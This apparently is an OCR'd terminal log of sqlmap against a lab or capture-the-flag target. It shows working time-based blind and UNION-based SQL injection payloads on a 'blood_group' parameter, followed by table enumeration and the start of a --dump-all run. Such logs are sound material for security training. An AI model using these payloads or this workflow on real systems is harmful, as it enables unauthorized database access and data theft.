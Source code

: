 ```
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 22:14:17 /2023-02-04/

[22:14:17] [INFO] parsing HTTP request from 'req.txt'
[22:14:18] [INFO] resuming back-end DBMS 'mysql' 
[22:14:18] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: blood_group (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: blood_group=A+' AND (SELECT 2957 FROM (SELECT(SLEEP(5)))lpcx) AND 'MmpH'='MmpH

    Type: UNION query
    Title: Generic UNION query (NULL) - 8 columns
    Payload: blood_group=A+' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,CONCAT(0x71787a7871,0x56626a6a7256627368576e504570586a707552505a51447064644a656a6170594762497163625a66,0x7176707671),NULL,NULL-- -
---
[22:14:18] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.10.3
back-end DBMS: MySQL >= 5.0.12
[22:14:18] [INFO] fetching tables for database: 'blood'
[22:14:19] [WARNING] reflective value(s) found and filtering out
Database: blood
[3 tables]
+----------+
| blood_db |
| flag     |
| users    |
+----------+

[22:14:19] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.10.60.177'

[*] ending @ 22:14:19 /2023-02-04/

┌──(kali㉿kali)-[~/nappy/brutus]
└─$ sqlmap -r req.txt -p blood_group -D blood --dump-all
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.6.12#stable}
|_ -| . [(]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 22:14:55 /2023-02-04/

[22:14:55] [INFO] parsing HTTP request from 'req.txt'
[22:14:56] [INFO] resuming back-end DBMS 'mysql' 
[22:14:56] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
```
